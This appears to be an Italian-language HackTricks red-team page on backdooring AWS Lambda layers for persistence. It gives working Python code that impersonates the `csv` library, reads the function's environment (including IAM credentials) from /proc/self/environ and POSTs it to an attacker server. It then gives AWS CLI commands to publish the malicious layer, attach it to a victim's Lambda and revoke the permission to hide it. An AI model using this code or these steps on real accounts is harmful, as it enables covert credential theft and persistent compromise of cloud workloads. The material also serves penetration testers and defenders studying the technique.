# AWS - Persistenza di Lambda Layers

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Un layer di Lambda è un archivio file .zip che **può contenere codice aggiuntivo** o altro contenuto. Un layer può contenere librerie, un [runtime personalizzato](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dati o file di configurazione.

È possibile includere fino a **cinque layers per funzione**. Quando si include un layer in una funzione, i **contenuti vengono estratti nella directory `/opt`** nell'ambiente di esecuzione.

Per **default**, i **layers** che crei sono **privati** per il tuo account AWS. Puoi scegliere di **condividere** un layer con altri account o di **rendere** il layer **pubblico**. Se le tue funzioni consumano un layer pubblicato da un account diverso, le tue funzioni possono **continuare a utilizzare la versione del layer anche dopo che è stato eliminato, o dopo che il permesso di accesso al layer è stato revocato**. Tuttavia, non puoi creare una nuova funzione o aggiornare funzioni utilizzando una versione di layer eliminata.

Le funzioni distribuite come immagine del contenitore non utilizzano layers. Invece, si impacchetta il runtime preferito, le librerie e le altre dipendenze nell'immagine del contenitore durante la creazione dell'immagine.

### Percorso di caricamento Python

Il percorso di caricamento che Python utilizzerà in lambda è il seguente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifica come il **secondo** e il terzo **posizioni** sono occupate dalle directory in cui i **lambda layers** decomprimono i loro file: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se un attaccante riuscisse a **inserire un backdoor** in un **lambda layer** utilizzato o **aggiungerne uno** che eseguirà **codice arbitrario quando viene caricata una libreria comune**, sarà in grado di eseguire codice dannoso ad ogni invocazione del lambda.
{% endhint %}

Pertanto, i requisiti sono:

* **Controllare le librerie** caricate dal codice delle vittime
* Creare una **libreria proxy con i lambda layers** che eseguirà **codice personalizzato** e **caricherà la libreria originale**.

### Librerie precaricate

{% hint style="warning" %}
Nel momento in cui ho abusato di questa tecnica, ho riscontrato una difficoltà: Alcune librerie sono **già caricate** nell'ambiente di runtime di Python quando il tuo codice viene eseguito. Mi aspettavo di trovare cose come `os` o `sys`, ma **anche la libreria `json` era caricata**.\
Per abusare di questa tecnica di persistenza, il codice deve **caricare una nuova libreria che non è già stata caricata** quando il codice viene eseguito.
{% endhint %}

Con un codice Python come questo è possibile ottenere l'**elenco delle librerie precaricate** all'interno dell'ambiente di runtime di Python nel lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E questa è la **lista** (controlla che le librerie come `os` o `json` siano già presenti)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E questa è la lista delle **librerie** che **lambda include installate di default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3]

### Backdooring del Lambda Layer

In questo esempio supponiamo che il codice mirato stia importando **`csv`**. Andremo a **inserire un backdoor nell'import della libreria `csv`**.

Per farlo, creeremo la directory csv con il file **`__init__.py`** al suo interno in un percorso che viene caricato da lambda: **`/opt/python/lib/python3.9/site-packages`**\
Quindi, quando il lambda viene eseguito e cerca di caricare **csv**, il nostro file **`__init__.py` verrà caricato ed eseguito**.\
Questo file deve:

* Eseguire il nostro payload
* Caricare la libreria csv originale

Possiamo fare entrambe le cose con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Quindi, crea un file zip con questo codice nel percorso **`python/lib/python3.9/site-packages/__init__.py`** e aggiungilo come un layer lambda.

Puoi trovare questo codice su [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Il payload integrato **invierà le credenziali IAM a un server LA PRIMA VOLTA che viene invocato o DOPO un reset del container lambda** (cambio di codice o lambda fredda), ma **altre tecniche** come le seguenti potrebbero anche essere integrate:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Livelli Esterni

Si noti che è possibile utilizzare **livelli lambda da account esterni**. Inoltre, una lambda può utilizzare un layer da un account esterno anche se non ha le autorizzazioni.\
Si noti inoltre che il **numero massimo di livelli che una lambda può avere è 5**.

Pertanto, per migliorare la versatilità di questa tecnica un attaccante potrebbe:

* Inserire un backdoor in un layer esistente dell'utente (nulla è esterno)
* **Creare** un **layer** nel **suo account**, dare all'**account della vittima l'accesso** per utilizzare il layer, **configurare** il **layer** nella Lambda della vittima e **rimuovere l'autorizzazione**.
* La **Lambda** sarà comunque in grado di **utilizzare il layer** e la **vittima non** avrà un modo semplice per **scaricare il codice dei livelli** (a parte ottenere una reverse shell all'interno della lambda)
* La vittima **non vedrà livelli esterni** utilizzati con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Impara e pratica l'hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
